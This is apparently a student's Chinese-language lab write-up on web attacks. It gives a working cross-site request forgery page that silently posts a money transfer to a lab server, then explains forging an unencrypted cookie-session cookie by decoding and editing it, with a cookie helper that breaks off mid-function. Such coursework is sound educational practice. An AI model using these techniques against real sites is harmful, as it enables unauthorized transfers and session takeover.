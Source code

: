 ### Cross-Site Request Forgery

edge 和 chrome 的同源策略都太严格了，所以这个实验我用的 IE。

F12 抓包，模仿他的表头发 Post 就行。

恶意网页如下:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Bad Website!</title>
        <script>
            let xhr = new XMLHttpRequest();
            xhr.open("POST", "http://192.168.43.134:3000/post_transfer");
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.withCredentials = true;
            xhr.send("destination_username=user1&quantity=10");
            window.location.replace("https://www.baidu.com");
        </script>
    </head>
    <body>
        <p>Hello World!</p>
    </body>
</html>
```

登录网页后打开这个恶意页面会往 user1 发 10 块钱然后导到百度。

### Session Hijacking with Cookies

看源码 app.js，用的 [cookie-session](https://github.com/expressjs/cookie-session/blob/master/index.js)，而且压根没加密。把 cookie 里的 session 弄出来直接通过 base64 解码就是 json 了，然后直接改就完事了。改完给它塞回去。

取 cookie 的前面大段 docCookie 我是从 [MDN](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie) 上直接抄的。其实直接用 substr 截取字符串也是一样的。

如果 profile 里有奇奇怪怪的特殊字符可能会在解码的时候出岔子？算了，题目没在乎这个。

```js
var docCookies = {
    getItem: function (sKey) {
        return decodeURIComponent(document.cookie.replace(new RegExp("(?:(?:^|.*;)\\s*" + encodeURIComponent(sKey).replace(/[-.+*]/g, "\\$&") + "\\s*\\=\\s*([^;]*).*$)|^.*$"), "$1")) || null;
    },
    setItem: function (sKey, sValue, vEnd, sPath, sDomain, bSecure) {
        if (!sKey || /^(?:expires|max\-age|path|domain|secure)$/i.test(sKey)) { return false; }
        var sExpires = "";
        if (vEnd) {
            switch (vEnd.constructor) {
                case Number:
                    sExpires = vEnd === Infinity ? "; expires=Fri, 31 Dec 9999 23:59:59 GMT" : "; max-age=" + vEnd;
                    break;
                case String:
                    sExpires = "; expires=" + vEnd;
                    break;
                case Date:
                    sExpires = "; expires=" + vEnd.toUTCString();
                    break;
            }
        }
        document.cookie = encodeURIComponent(sKey) + "=" + encodeURIComponent(sValue) + sExpires + (sDomain ? "; domain=" + sDomain : "") + (sPath ? "; path=" + sPath : "") + (bSecure ? "; secure" : "");
        return true;
```